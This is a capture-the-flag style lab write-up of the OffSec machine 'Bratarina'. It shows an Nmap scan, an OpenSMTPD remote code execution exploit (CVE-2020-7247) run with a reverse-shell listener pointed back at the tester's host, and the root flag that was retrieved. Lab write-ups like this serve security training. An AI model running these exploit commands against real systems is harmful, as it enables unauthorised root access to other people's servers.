



# Lab Report - Bratarina


# Overview 
---
- **Difficulty**: Easy
- **Community Rating**: Intermediate
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/bratarina-159/overview/details

## Resolution Summary 
---
A vulnerable version of OpenSMTPD leads to RCE as root on the target.

# Information Gathering 
---
- First and foremost, we ran an Nmap scan in order to identify available services and their versions. We discovered that OpenSMTPD was running on port 25:
```bash
sudo nmap 192.168.146.71 -p- -sCV
```
<p align="center">
  
</p>


# Exploitation 
---
- The OpenSMTPD service was vulnerable to RCE ([CVE-2020-7247](https://www.exploit-db.com/exploits/47984)). Using [this PoC](https://github.com/r0lh/CVE-2020-7247/blob/master/CVE-2020-7247.go), we were able to gain a foothold on the target.
- First, we set up a listener: 
```bash
penelope -p 80
```

- Then we executed the exploit:
```bash
go run /opt/Service/OpenSMTPD/CVE-2020-7247/CVE-2020-7247.go -u 192.168.146.71 -p 25 -lh 192.168.45.220 -lp 80
```
<p align="center">
  
</p>


- We immediately gained a root shell, and retrieved the flag: 
```bash
id
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>

# Trophy 
---
**Root.txt → `6061cb7487a5fbd0cb62cd6afa177ddf`**

